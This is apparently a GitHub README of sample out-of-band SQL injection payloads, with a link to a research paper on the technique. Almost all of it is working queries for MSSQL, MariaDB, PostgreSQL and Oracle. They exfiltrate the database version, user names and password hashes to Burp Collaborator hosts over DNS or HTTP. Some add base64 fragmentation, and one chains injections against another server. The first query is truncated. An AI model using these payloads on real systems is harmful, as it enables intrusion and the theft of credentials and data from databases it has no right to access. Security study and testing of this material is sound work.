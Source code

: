 # OOB-SQLi

This part is for sharing sample queries for Out-of-Band (OOB) Structured Query Language (SQL) injection purpose. The detailed discussion may refer to the following links

https://zenodo.org/record/3556347#.XeDK1tURVPY  https://www.academia.edu/41117452/A_Study_of_Out-of-Band_Structured_Query_Language_Injection

# DNS Based Exfiltration

1. Microsoft SQL database

DECLARE @a varchar(1024); DECLARE @b varchar(1024); SELECT @a = (SELECT system_user);   SELECT @b = (SELECT DB_Name()); EXEC('master..xp_dirtree

2. MariaDB

select load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollaborator.net\\vfw')) 

3. PostgreSQL database

DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result_version TEXT; DECLARE query_result_user TEXT; DECLARE query_result_password TEXT; BEGIN SELECT INTO query_result_version (SELECT current_setting('server_version')); SELECT INTO query_result_user (SELECT usename FROM pg_shadow); SELECT INTO query_result_password (SELECT passwd FROM pg_shadow); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result_version||'.'||query_result_user||'.'||query_result_password||E'.n4sg4c5uh0t38fdncn1496qg47axym.burpcollaborator.net\\\\foobar.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgsql SECURITY DEFINER; SELECT temp_function();

4. Oracle database

SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;

# HTTP Based Exfiltration

1. Oracle database

SELECT UTL_HTTP.request('http://fexvz59jd1088tjhf7y6z0onkeq4et.burpcollaborator.net/'||'?version='||(SELECT version FROM v$instance)||'&'||'user='||(SELECT user FROM dual)||'&'||'hashpass='||(SELECT spare4 FROM sys.user$ WHERE rownum=1)) FROM dual;

# Advanced OOB SQL Injection

1. Fragmentation + Encoding

DECLARE @d varchar(1024); DECLARE @T varchar(1024); SELECT @d = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), 1,LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@d, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

DECLARE @e varchar(1024); DECLARE @T varchar(1024); SELECT @e = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2, LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@e, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

2. Chain of SQL Injection (Oracle DB + MariaDB)

SELECT UTL_HTTP.request('http://192.168.220.130/sqli.php?id=1%27%2b%28%28select%20load%5ffile%28CONCAT%28%27%5c%5c%5c%5c%27%2c%28SELECT%2buser%29%2c%27%2e%27%2c%28SELECT%2bpassword%29%2c%27%2e%27%2c%27jobuvs89ieon1z3f1qjkc0phk8qyen%2eburpcollaborator%2enet%5c%5cvfw%27%29%29%29%29%2b%27') FROM dual;                                                           
